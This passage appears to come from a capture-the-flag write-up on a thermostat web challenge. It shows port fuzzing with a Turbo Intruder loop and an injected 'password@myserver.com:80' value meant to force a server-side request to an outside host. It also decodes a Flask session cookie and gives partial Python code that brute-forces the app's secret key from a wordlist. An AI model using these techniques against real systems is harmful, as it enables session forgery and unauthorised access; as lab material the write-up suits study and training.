Note that I just set the parameter value to `turbo.d.mydomain.com.br` which if resolved it will also be logged in my DNS. After this, I just sorted the result columns by status code, which showed me `500` for parameter `port`. Nice, we are now able to set the port. Next idea is to try changing the port to all values from 0-65535 and detect another service. Using Turbo Intruder it was easy:

```python
...
    for x in range(0,65536):
        engine.queue(target.req, x)
```

But nothing different. Let's try some injection, setting the port to `password@myserver.com:80` could lead to `http://update.flitethermostat:password@myserver.com:80/` and thus achieving a SSRF to `myserver.com`. But it didn't happen, the server returned error 500. Port was an integer parameter. Time to breath...

#### JWT

After logged in a session cookie is assigned which appears to be a flask JWT. jwt.io defines: `JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed.` It also says that `JSON Web Tokens consist of three parts separated by dots (.), which are: Header.Payload.Signature .... this JSON is Base64Url encoded....`.

Base64 decoded the first part:
```
# session=eyJsb2dnZWRJbiI6dHJ1ZX0.XIHPog.46NKzPROJLINKkYDyQpOQI27JD0
# eyJsb2dnZWRJbiI6dHJ1ZX0
# echo -n 'eyJsb2dnZWRJbiI6dHJ1ZX0='  | base64 -d
{"loggedIn":true}
```

There is only a `loggedIn` attribute... Nevertheless I decided to extend `https://github.com/noraj/flask-session-cookie-manager`  and create a brute force to `app.secret_key` which is used to sign JWT in a flask app.

```python
...
parser_brute = subparsers.add_parser('brute', help='brute')
parser_brute.add_argument('-p', '--payload', metavar='<string>',
                            help='Cookie value', required=True)
parser_brute.add_argument('-w', '--wordlist', metavar='<string>',
                            help='Wordlist', required=True)
...
def bruteforce(payl, wordl):   
    f = open(wordl, 'r')
    for line in f:
        s = session_cookie_decoder(payl,line.strip())
        print(line.strip() +'  '+ s)
        if 'error' not in s:
            print(line.strip + ' <<<<----- KEY')
            return
...
```
